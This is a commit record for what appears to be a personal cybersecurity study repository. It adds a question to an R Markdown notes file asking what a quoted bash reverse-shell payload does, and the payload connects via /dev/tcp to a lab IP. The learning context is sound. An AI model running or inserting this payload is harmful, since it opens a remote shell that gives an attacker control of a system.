

Before and after one commit to marqsmat/cybersec, an R Markdown document (write-ups/concepts.rmd): the page in a window 1100 px wide, from 360 px down. Rendered offline with R 4.5, knitr and Pandoc, with nearby package versions.

Commit message:
Obscure payload

```diff
--- a/write-ups/concepts.rmd
+++ b/write-ups/concepts.rmd
@@ -58,3 +58,5 @@
 * What is `netcat` and how does it work?
 
 * DNS servers. Why add arbitrary DNS servers to `/etc/hosts`, such as `8.8.8.8`?
+
+* What the payload `bash -c 'exec bash -i &>/dev/tcp/10.10.14.11/1234 <&1'` does exactly?
```
